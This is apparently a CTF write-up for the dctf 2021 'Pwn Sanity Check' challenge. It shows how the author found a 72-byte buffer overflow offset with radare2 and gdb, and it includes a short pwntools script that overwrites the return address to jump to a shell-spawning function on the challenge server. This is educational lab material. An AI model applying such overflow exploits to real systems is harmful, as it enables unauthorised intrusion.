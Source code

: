 ```yaml
---
title: Pwn Sanity Check
date: 2020-05-16
excerpt: "'Pwn Sanity Check' was a challenge in the Pwn category of dctf 2021"
classes: wide
categories: dctf2021
tags:
  - dctf2021
  - pwn
  - pwntools
  - gdb
  - radare2
---
```


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/0.png)

Taking a look at the file we see that it's **ELF 64-bit**

```
ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=ae6fb7020a27e2fdccdb6826a57ccc5bfc0d127a, not stripped
```

Loading it in to **radare 2** and listing the functions we can see that there is a **win** function


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/1.png)

Disassembling that function with `pdf @sym.main`


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/2.png)

There's a lot going on. Looks like when the function is called it's checking for two arguments `0xdeadbeef` and `0x1337c0de` and then it gives us a shell? What if we skip the variable checks completely and jump to `0x004006cf`?


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/3.png)

Loading the binary into **gdb** (using gef support), we can start poking at it and try to find the offset

I was having issues with `pattern create/search` so I did it the old fashioned way: sending lots of 'A's and 'B's until something looked neat

Using **gdb with gef** you can use `pi print('A'*100)` to quickly toss a string of characters together

After sending different lenghts, I found that **72** was when we started seeing the 'B' characters leak in

`pi print('A'*72 + 'B')`


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/4.png)

Things we know:

1. The offset is **72**
2. The address we want to jump to is **0x004006cf**
3. It's an **ELF 64-bit** binary

That's enough to write a script using **Pwntools**. Here's mine

```
from pwn import *

p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)

offset = b'A' * 72

print(p.recvuntil('joke\n'))
p.sendline(offset + p64(0x004006cf))
p.interactive()
```

The `p64(0x004006cf)` function call packs the address in **Little Endian** format, required to be passed, and `p.interactive()` just catches the shell and allows us to send input.


![img](/assets/images/ctf/dctf2021-pwnsanitycheck/5.png)



